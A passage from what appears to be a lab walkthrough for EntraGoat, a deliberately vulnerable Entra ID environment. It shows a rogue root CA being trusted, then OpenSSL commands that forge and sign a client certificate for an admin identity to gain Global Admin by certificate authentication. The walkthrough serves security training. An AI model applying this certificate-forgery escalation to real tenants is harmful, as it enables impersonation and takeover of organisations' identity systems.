 Great! The root CA is now uploaded (*Figure 20*).

![](image%2019.png)

*Figure 20. Confirmation of successful upload of the root CA*

With the rogue CA accepted and trusted, we can now issue a client certificate for any identity (including the EntraGoat-admin-s6 user) and sign them using our newly and totally legitimate root CA:

```powershell
# Generate client certificate private key and signing request

& $opensslBinary req -new -sha256 -config client.conf -newkey rsa:4096 -nodes -keyout "$adminUPN.key" -out "$adminUPN.csr" -subj "/C=US/ST=Washingaot/L=EvilDistrict/O=EntraGoat/OU=Security/CN=$adminUPN"

# Sign the client certificate with root CA

& $opensslBinary ca -batch -md sha256 -config ca.conf -extensions v3\_req -out "$adminUPN.crt" -infiles "$adminUPN.csr"

# Convert to PFX format for Windows installation

& $opensslBinary pkcs12 -inkey "$adminUPN.key" -in "$adminUPN.crt" -export -out "$adminUPN.pfx" -password pass:EntraGoat123!

```

### Step 8: Passwordless authentication to GA

To complete the privileged escalation path:

1. **Install** the issued .pfx certificate located in $caWorkspace on your local machine (*Figure 21*). The import password is EntraGoat123!.

![](image%2020.png)
